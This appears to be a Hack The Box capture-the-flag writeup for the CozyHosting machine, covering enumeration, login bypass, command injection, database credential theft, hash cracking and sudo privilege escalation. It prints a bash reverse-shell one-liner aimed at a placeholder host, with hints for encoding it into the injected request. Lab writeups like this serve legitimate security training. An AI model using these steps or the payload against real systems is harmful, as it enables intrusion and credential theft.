 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
---
```


This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

# 1. Initial enumeration
First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](/assets/writeups/CozyHosting/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](/assets/writeups/CozyHosting/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](/assets/writeups/CozyHosting/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](/assets/writeups/CozyHosting/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](/assets/writeups/CozyHosting/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](/assets/writeups/CozyHosting/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](/assets/writeups/CozyHosting/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](/assets/writeups/CozyHosting/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](/assets/writeups/CozyHosting/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We can't access the database directly from our machine, however we could by setting up a tunnel from the client to our machine. This can be done using a tool such as Chisel. The tool must be downloaded and deployed on both sides:

![](/assets/writeups/CozyHosting/Selection_072.png)![](/assets/writeups/CozyHosting/Selection_073.png) 

We can then access the database from our machine:
![](/assets/writeups/CozyHosting/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](/assets/writeups/CozyHosting/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !